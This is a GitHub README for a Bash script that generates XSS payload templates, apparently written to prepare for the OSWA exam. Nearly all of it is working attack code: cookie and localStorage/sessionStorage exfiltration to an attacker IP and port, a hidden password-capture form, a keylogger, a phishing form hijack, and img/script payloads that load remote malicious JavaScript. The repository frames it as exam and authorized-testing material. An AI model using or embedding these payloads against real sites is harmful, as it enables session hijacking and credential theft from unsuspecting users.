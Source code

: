 
# XSS-Template

`xss_template.sh` is a Bash script designed to streamline XSS payload generation while preparing for the Offensive Security Web Assessor (OSWA) exam. This tool helps you quickly create common XSS exploit templates using your own IP, port, and hosted malicious files.

---

## Overview

This tool was developed with speed, simplicity, and utility in mind. Instead of writing XSS payloads manually, this script generates pre-configured code snippets for different attack vectors including cookie theft, keylogging, phishing, and more.

---

## Features

- Interactive prompt for IP, Port, and hosted File name
- Outputs a file with templated JavaScript snippets
- Payloads cover a variety of XSS use cases
- Easily copy/paste-ready for lab or exam usage
- Supports both reflected and stored XSS scenarios

---

## Usage

Make the script executable and run:

```bash
chmod +x xss_template.sh
./xss_template.sh
````

You'll be prompted to enter:

* **IP Address** – Your attacker box (e.g., `10.10.14.5`)
* **Port** – Where your listener/server is running (optional)
* **File Name** – JavaScript file to be loaded (optional)

The script will generate an output file:

```
xxs_<IP>.txt
```

This file contains all the payloads, pre-filled with your IP, Port, and optional file reference.

---

## Template Categories

The following templates are generated:

### 1. **Steal Session Cookies**

```javascript
let cookie = document.cookie;
let encodedCookie = encodeURIComponent(cookie);
fetch("http://<IP>:<PORT>/exfil?data=" + encodedCookie);
```

### 2. **Steal Local Storage Tokens**

```javascript
fetch('http://<IP>:<PORT>/session?' + encodeURIComponent(localStorage.token));
```

### 3. **Steal Session Passwords**

Creates hidden input fields and exfiltrates entered data:

```javascript
let body = document.body;
let u = document.createElement('input');
u.type = 'text';
u.style.position = 'fixed';
let p = document.createElement('input');
p.type = 'password';
p.style.position = 'fixed';
body.append(u);
body.append(p);
setTimeout(function() {
    fetch('http://<IP>:<PORT>/k?u=' + u.value + '&p=' + p.value)
}, 5000);
```

### 4. **Steal Local Storage / Session Storage**

```javascript
let data = JSON.stringify(localStorage); // or sessionStorage
let encodedData = encodeURIComponent(data);
fetch("http://<IP>:<PORT>/exfil?data=" + encodedData);
```

### 5. **Cookie Exfiltration via `document.write`**

```html
<script>document.write('<img src="http://<IP>:<PORT>/?bogus=' + document.cookie + '" />');</script>
```

---

## XSS Payload Variants

### Payload 1

```html
<img src='x' onerror='src="http://<IP>:<PORT>/<FILE>"'>
```

### Payload 2

```html
<img src='x' onerror='const script = document.createElement("script"); script.src="http://<IP>:<PORT>/<FILE>"; script.async = true; document.body.appendChild(script);'>
```

### Payload 3

```html
<script src="http://<IP>:<PORT>/<FILE>"></script>
```

### Payload 4

```html
<img src=x onerror='fetch("http://<IP>:<PORT>/<FILE>")'>
```

---

## Keylogger

```javascript
function logKey(event) {
  fetch("http://<IP>:<PORT>/k?key=" + event.key);
}
document.addEventListener('keydown', logKey);
```

---

## Phishing Template

```javascript
fetch('/search/login').then(res => res.text().then(data => {
  document.documentElement.innerHTML = data;
  document.forms[0].action = 'http://<IP>';
  document.forms[0].method = 'get';
}));
```

---

## Output Example

Output is saved as:

```
xxs_10.10.14.5.txt
```

You can open the file and copy any payload with your inputs pre-filled.

---

## Screenshot

![image](https://github.com/user-attachments/assets/63d1716f-2722-4bbb-a015-4b6e948fcb02)

---

## Requirements

* Bash
* A listener or HTTP server (e.g., Python `http.server`) running at the specified IP and port
* A hosted malicious JS file (optional but recommended for some payloads)

---

## Disclaimer

This script is for educational and authorized penetration testing use only. Unauthorized use against systems without permission is illegal and unethical.


